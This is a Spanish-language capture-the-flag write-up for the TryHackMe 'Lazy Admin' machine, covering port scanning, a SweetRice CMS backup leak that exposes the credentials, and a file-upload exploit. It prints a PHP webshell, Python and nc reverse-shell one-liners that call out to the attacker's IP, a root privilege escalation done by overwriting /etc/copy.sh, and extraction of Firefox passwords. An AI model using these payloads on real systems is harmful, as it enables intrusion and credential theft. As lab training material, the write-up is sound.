






TryHackMe - Lazy Admin

| Titulo | Lazy Admin |
|---|---|
| Room | Lazy Admin |
| Info | Easy linux machine to practice your skills |
| Puntos | 385 |
| Dificultad | Relativamente Facil |
| Maker | MrSeth6797 |
MASSCAN & NMAP
Escaneo de puertos tcp/udp y sus servicios, nmap nos muestra dos puertos abiertos el http (80) y el ssh (22).
root@aoiri:~/tryhackme/lazyadmin# masscan -p1-65535,U:1-65535 10.10.68.91 -e tun0
Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2019-12-12 04:49:57 GMT
-- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 22/tcp on 10.10.68.91
Discovered open port 80/tcp on 10.10.68.91
# Nmap 7.80 scan initiated Wed Dec 11 22:50:33 2019 as: nmap -sV -sC -o nmap_scan 10.10.68.91
Nmap scan report for 10.10.68.91
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
| 256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_ 256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 11 22:51:22 2019 -- 1 IP address (1 host up) scanned in 48.56 seconds
WHATWEB
Vemos que la pagina esta corriendo sobre un Apache 2.4.18.

HTTP
Al visitar la pagina nos muestra el tipico index de apache. 
GOBUSTER
Utilizamos esta herramienta para poder obtener los directorios y archivos ue puedan ser interesantes.
root@aoiri:~/tryhackme/lazyadmin# gobuster dir -u http://10.10.68.91/ -x php,txt,html -q -t 15 -w /usr/share/wordlists/dirb/common.txt
/content (Status: 301)
/index.html (Status: 200)
/index.html (Status: 200)
/server-status (Status: 403)
root@aoiri:~/tryhackme/lazyadmin#
Sweet Rice CMS
/content
Encontramos un CMS especificamente Sweet Rice, con un mensaje que indica que el sitio web esta en construccion.

Pasamos nuevamente gobuster sobre la direccion de SweetRice y econtramos distintos directorios relacionados con el gestor de contenidos.
root@aoiri:~/tryhackme/lazyadmin# gobuster dir -u http://10.10.68.91/content/ -x php,txt,html -q -t 15 -w /usr/share/wordlists/dirb/common.txt
/_themes (Status: 301)
/as (Status: 301)
/attachment (Status: 301)
/changelog.txt (Status: 200)
/images (Status: 301)
/inc (Status: 301)
/index.php (Status: 200)
/index.php (Status: 200)
/js (Status: 301)
/license.txt (Status: 200)
root@aoiri:~/tryhackme/lazyadmin#
Una direccion interesante es /as, contiene un panel de logeo, intentamos utilizar las credenciales por default pero no logramos acceder.

Buscamos exploits que pudiesen afectar a este gestor de contenidos y encontramos distintas vulnerabilidades.

SweetRice 1.5.1 - Backup Disclosure
Una de ellas indica que existe un backup de mysql en el directorio /inc/mysql directorio que existe en esta pagina.

Descargamos el archivo y al analizarlo encontramos que se hizo una insersion en la tabla options donde encontramos un nombre y una contraseña, las cuales podemos utilizar en el panel de logeo.

Buscamos el hash en crackstation y obtuvimos la contraseña en texto plano:

Credenciales:
User: manager
Password: Password123
SweetRice 1.5.1 - Arbitrary File Upload
Utilizamos un exploit que afecta a este gestor de contenidos para subir una shell, antes de ejecutarlo agregamos la ip y un dominio a nuestro archivo hosts (lazyadmin.thm en mi caso) ya que nos pedira un dominio y no una IP. Tambien agregamos /content/ a los valores que contienen /as/ y /attachment/.
Creamos un archivo en php de prueba:
echo "<?php echo ':D'; ?>" > shellfoo.php5
Ejecutamos y vemos que se subio nuestro archivo:

Nuestro archivo de prueba:

Subimos una webshell:
<?php
if(isset($_REQUEST['cmd'])){
echo "<pre>";
$cmd = ($_REQUEST['cmd']);
system($cmd);
echo "</pre>";
die;
}
?>

Ejecutamos un comando para obtener una shell inversa:
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.1.72",1338));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

USER - Flag
Nos movemos a la carpeta principal del usuario itguy y obtenemos nuestra flag user.txt.

PRIVILEGE ESCALATION
Hacemos una enumeracion rapida con el comando sudo -l -l, y vemos que hay un archivo que podemos ejecutar con perl con el comando sudo, a su vez este archivo ejecuta otro (/etc/copy.sh), este ultimo ejecuta un comando para obtener una shell inversa hacia una IP.
/home/itguy/backup.pl
#!/usr/bin/perl
system("sh", "/etc/copy.sh");
copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
El archivo backup.pl no puede ser modificado, pero el archivo copy.sh si, hicimos una pequeña prueba con un comentario en bash.
echo "#foo" >> /etc/copy.sh

Permisos copy.sh:

Agregamos una shell inversa al archivo copy.sh:
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.1.72 1337 >/tmp/f" > /etc/copy.sh

Ejecutamos y obtenemos una shell inversa con el usuario root, junto con nuestra flag root.txt.

Firefox Decrypt
Dentro de la carpeta principal del usuario itguy encontramos la carpeta .mozilla/firefox/, utilizamos firefox_decrypt para obtener las contraseñas y usuarios guardados.